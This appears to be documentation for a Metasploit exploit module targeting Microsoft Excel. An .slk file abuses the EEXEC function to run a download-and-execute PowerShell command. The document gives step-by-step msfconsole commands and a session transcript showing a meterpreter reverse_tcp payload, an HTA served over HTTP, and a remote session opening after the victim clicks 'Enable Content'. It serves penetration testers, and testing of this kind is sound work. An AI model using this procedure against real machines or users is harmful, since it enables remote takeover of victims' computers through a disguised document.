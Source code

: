 ## Introduction

The .slk file format used by Microsoft Excel has the ability to execute local commands via the `EEXEC(cmd)` function. 
This module takes advantage of this 'feature' to run a download-and-execute powershell command in order to spawn a session
on the target.

## Vulnerable Application

  Microsoft Excel (tested on Excel 2016)

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/office_excel_slk`
3. `set LHOST [IP]`
4. `set SRVHOST [IP]`
5. `run`
6. Open generated file and press 'Enable Content' in Excel

## Options

  **FILENAME**

  The name of the generated .slk file. Default is a randomly generated file name.

## Scenarios

### Microsoft Excel 2016 on Windows 10 Build 17763.288

  ```
  msf > use exploit/windows/fileformat/office_excel_slk
  msf exploit(office_excel_slk) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(office_excel_slk) > set lhost 192.168.146.1
  lhost => 192.168.146.1
  msf exploit(office_excel_slk) > set srvhost 192.168.146.1
  srvhost => 192.168.146.1
  msf exploit(office_excel_slk) > run
  [*] Exploit running as background job.

  [*] Started reverse TCP handler on 192.168.146.1:4444
  [+] msf.doc stored at /Users/carter/.msf4/local/msf.slk
  [*] Using URL: http://192.168.146.1:8080/default.hta
  [*] Server started.
  ```
  Once the victim opens the file and clicks 'Enable Content' a session should spawn:
  ```
  [*] Sending stage (957487 bytes) to 192.168.146.145
  [*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2019-01-13 16:00:49 -0500
  ```
